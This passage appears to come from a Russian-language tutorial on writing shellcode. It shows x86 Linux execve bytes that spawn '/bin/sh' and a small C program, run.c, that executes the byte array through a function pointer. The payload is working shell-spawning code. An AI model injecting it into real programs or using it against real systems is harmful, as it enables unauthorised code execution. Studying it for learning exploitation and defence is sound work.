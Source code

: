 ![execve shellcode 2.1](./images/12/2021-10-11_13-35.png){width="80%"}    

Наш shellcode:
```cpp
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e
\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\xb0\x0b\xcd\x80"
```

Затем заменяем код в `run.c` следующим:     
```cpp
/*
run.c - небольшой каркас программы для выполнения shellcode
*/
// вставляем наш байт-код
char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31"
"\xd2\x50\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // указатель на функцию
  func = (int (*)()) code;   // func указывает на наш shellcode
  (int)(*func)();            // выполняем код в code[]
  // если программа вернула 0 вместо 1,
  // значит, shellcode сработал
  return 1;
}
```
